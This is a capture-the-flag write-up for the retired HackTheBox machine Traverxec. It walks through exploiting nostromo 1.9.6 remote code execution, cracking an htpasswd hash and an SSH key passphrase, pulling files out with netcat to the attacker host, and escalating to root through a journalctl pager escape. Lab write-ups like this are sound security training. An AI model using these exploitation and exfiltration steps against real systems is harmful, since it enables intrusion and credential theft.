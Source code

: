 # Traverxec

This is the write-up for the box Traverxec that got retired at the 11th April 2020.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.165    traverxec.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/traverxec.nmap 10.10.10.165
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page is a custom-developed website and there is nothing interesting in the HTML source code.
When looking at the _HTTP Server header_, it shows that the web server runs **nostromo 1.9.6**.

The software [nostromo](https://www.nazgul.ch/dev_nostromo.html) is also known as **nhttpd** and is a web server.

Searching for vulnerabilities for **nostromo**:
```
searchsploit nostromo
```
```
Nostromo - Directory Traversal Remote Command Execution (Metasploit)
nostromo 1.9.6 - Remote Code Execution
```

There is a known Remote Code Execution vulnerability that can be exploited with a **Python script** or with a **Metasploit module**.

Using the Metasploit module:
```
msf6 > use exploit/multi/http/nostromo_code_exec

msf6 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
msf6 exploit(multi/http/nostromo_code_exec) > set LHOST tun0

msf6 exploit(multi/http/nostromo_code_exec) > exploit
```

Using the Python script:
```
python2 47837.py 10.10.10.165 80 id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Both result in command execution as the user _www-data_, but as the Metasploit module starts a shell immediately, it is more comfortable to use that.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration script**:
```
wget http://10.10.14.6/LinEnum.sh

bash LinEnum.sh
```

In the web directory is a hidden file _/var/nostromo/conf/.htpasswd_ with a password hash for the user _david_:
```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

It starts with _"$1$"_ and the [example hashes of Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) show that it is probably **md5crypt**.
Lets try to crack it with **Hashcat**:
```
hashcat -m 500 david_htpasswd.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password is:
> Nowonly4me

Unfortunately the password does not work on SSH or switching users to _david_.

The configuration file _/var/nostromo/conf/nhttpd.conf_ shows that there is a home directory set:
```
(...)
HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

Even though, the user _www-data_ cannot list the contents of the home directory of _/home/david_, it is possible to get into the _public_www_ folder anyway as the web user needs read access there:
```
cd /home/david/public_www

ls -l

total 8
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

The directory _protected-file-area_ contains a file called _backup-ssh-identity-files.tgz_.
Downloading the file to our local client:
```
# Local client
nc -lvnp 9001 > backup-ssh-identity-files.tgz
```
```
www-data@traverxec:/home/david/public_www/protected-file-area& nc 10.10.14.6 9001 < backup-ssh-identity-files.tgz
```

The file can be decompressed with `tar`:
```
tar -xzvf backup-ssh-identity-files.tar
```

It extracted the public and private SSH keys from _david_:
```
- home/david/.ssh/authorized_keys
- home/david/.ssh/id_rsa
- home/david/.ssh/id_rsa.pub
```

The private key _id_rsa_ is encrypted, but the password found earlier does not work.
Lets try to crack the SSH key with **JohnTheRipper**:
```
sshng2john id_rsa > david_ssh.hash

john --wordlist=/usr/share/wordlists/rockyou.txt david_ssh.hash
```

It gets cracked and the password is:
> hunter

Login as _david_ via SSH:
```
ssh -i home/david/.ssh/id_rsa david@10.10.10.165
```

### Privilege Escalation to root

In the home directory of _david_ is a bash script called _/home/david/bin/server-stats.sh_ where the last line of the script uses `journalctl` with sudo permissions:
```
(...)
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

The binary `journalctl` is listed in [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/) and can be abused to elevate privileges when running it with sudo.
By removing the command after the pipe, `journalctl` will invoke the default pager as `less`.

The command `less` waits for user input and it is possible to execute commands with the exclamation mark character:
```
(...)
!/bin/sh
```

> NOTE: If `journalctl` will not use `less` as the pager, then shrink the terminal size to less than 5 lines and run the command again and it will use `less` by default

This starts a shell as root!
